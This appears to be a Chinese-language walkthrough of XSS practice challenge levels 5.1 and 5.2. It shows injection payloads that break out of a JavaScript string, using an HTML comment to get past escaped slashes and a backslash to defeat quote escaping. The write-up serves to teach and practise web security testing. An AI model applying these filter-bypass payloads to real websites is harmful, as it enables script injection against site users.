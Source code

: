 **参考**
[XSS常用标签及绕过姿势总结](https://www.freebuf.com/articles/web/340080.htm)
浏览器对 XSS 代码的解析顺序为：HTML解码 —— URL解码 —— JS解码(只支持UNICODE)。当可控点为单个标签属性时，可以使用 html 实体编码。

### Level 5.1

**思路**  
照例先使用`<svg/onload=alert(1)>`来探测一下，生成的页面源码如下：
```html
<html>
<body>
<script src="analytics.js"></script>
Get popup within sudo.co.il context.

<p>
your cool xss
</p>

<script>
a = '<svg\/onload=alert(1)>'
</script>

</body>
</html>
```
这次的注入点在`<script>`标签之中。因此，注入方式是触发一段我们自己的JS代码。先尝试一段简单的代码，看是否存在过滤：
```html
'; alert(1); //
```
结果如下：
```html
<script>
a = ''; alert(1); \/\/'
</script>
```
Javascript的comment符号`//`被转义了，无法弹窗。但是这段代码最终是嵌入在HTML代码中，因此可以尝试HTML的comment符号，
顺利弹窗：
```html
'; alert(document.domain);<!--
```

### Level 5.2

**思路**  
直接使用Level 5.1的代码来探测一下，无法弹窗，生成的页面源码如下：
```html
<script>

a = '\'; alert(document.domain);<!--'

</script>
```
原来是把`'`给转义成`\'`了。绕过也很简单，将`'`变成`\'`，这样处理后的结果变成`a = '\\'`，顺利绕过。代码如下：
```html
\'; alert(document.domain);<!--
```
